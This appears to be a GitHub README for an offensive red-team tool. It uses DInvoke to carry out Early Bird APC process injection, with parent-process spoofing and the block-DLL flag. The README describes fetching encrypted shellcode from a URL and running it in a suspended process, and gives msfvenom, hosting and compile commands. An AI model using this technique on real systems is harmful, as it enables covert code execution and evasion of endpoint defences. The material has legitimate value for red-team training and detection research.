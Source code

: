 # DInvoke-EarlyBird
Early Bird process injection and PPID spoofing technique using DInvoke.

- Fetch shellcode from URL.
- Extract the key from the encrypted shellcode and decrypt it.
- Spawn a target process in suspended state.
  - Using PPID spoofing.
  - Using block dll flag: DLL which has not been signed by Microsoft and attempt to be loaded into the process, will fail.
- Execute shellcode via APC Queue.

# Usage
1. Create and encrypt your shellcode:
```bash
> msfvenom -p windows/x64/exec CMD=calc.exe -f raw > calc.bin
> python3 encrypt calc.bin
[+] Saved encrypted file as encrypted.bin (Size: 304 bytes)
```
2. Host the encrypted payload:
```bash
> python3 -m http.server 80 
```
3. Adjust the line 35 of `Program.cs` to reflect your environment.
4. Compile and run:
```bash
PS> csc /unsafe Program.cs
```

# To-Do
- Implement a process integrity check for PPID spoofing:  
Currently the PPID spoofing is retrieving a handle to the process specified without checking its integrity. If you are a low-privilege user and try to get a handle to a high privilege process, the program may crash due to access violation.

# References
- https://github.com/TheWover/DInvoke
- https://github.com/rasta-mouse/DInvoke
- https://offensivedefence.co.uk/posts/ppidspoof-blockdlls-dinvoke/
- https://github.com/Octoberfest7/OSEP-Tools
